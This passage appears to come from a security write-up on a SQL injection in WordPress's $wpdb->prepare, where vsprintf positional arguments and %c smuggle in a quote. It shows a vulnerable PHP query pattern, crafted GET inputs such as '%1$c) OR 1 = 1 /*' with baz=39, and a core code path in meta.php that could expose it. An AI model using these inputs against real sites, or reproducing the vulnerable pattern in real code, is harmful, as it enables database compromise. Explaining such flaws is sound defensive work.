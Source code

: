 The original reported vulnerability (months ago, not by me) relied on the following theoretical (well, many plugins had this pattern) server-side code:

```php
$items = implode(", ", array_map([$wpdb, '_real_escape'], $_GET['items']));
$sql = "SELECT * FROM foo WHERE bar IN ($items) AND baz = %s";

$query = $wpdb->prepare($sql, $_GET['baz']);
```

The original reported vulnerability used a sneaky feature in `vsprintf` to allow you to "absolute reference" arguments. Let's look at an example:

```php
vsprintf('%s, %d, %s', ["a", 1, "b"]); // "a, 1, b"
vsprintf('%s, %d, %1$s', ["a", 2, "b"]); // "a, 2, a"
```

Notice that `%n$s` will not read the next argument, but the one at the position specified by `n`.

We can use this fact to inject into the original query. Imagine that we instead passed the following information to the request:

```php
$_GET['items'] = ['%1$s'];
$_GET['baz'] = "test";
```

Now, the query will be changed to `SELECT * FROM foo WHERE bar IN ('test') AND baz = 'test';` Not good (we've successfully changed the meaning of the query), but also not incredibly bad on the surface. 

There's one other key piece of information that the original report included to change this into a full-blown SQL Injection. `sprintf` also accepts another type of parameter: `%c` which acts like `chr()` and converts a decimal digit into a character. So now, the attacker can do this:

```php
$_GET['items'] = ['%1$c) OR 1 = 1 /*'];
$_GET['baz'] = 39;
```

Checking an ASCII table, `39` is the ASCII code for `'` (a single quote). So now, our rendered query becomes:

```sql
SELECT * FROM foo WHERE bar IN ('') OR 1 = 1 /*' AND baz = 'test';
```

Which means that it's injected.

This sounds like a long shot. It requires passing in attacker-controlled input to the `query` parameter of prepare. But as it turns out, this exists in core in `/wp-includes/meta.php`:

```php
if ( $delete_all ) {
  $value_clause = '';
  if ( '' !== $meta_value && null !== $meta_value && false !== $meta_value ) {
    $value_clause = $wpdb->prepare( " AND meta_value = %s", $meta_value );
  }
  $object_ids = $wpdb->get_col( $wpdb->prepare( "SELECT $type_column FROM $table WHERE meta_key = %s $value_clause", $meta_key ) );
}
```

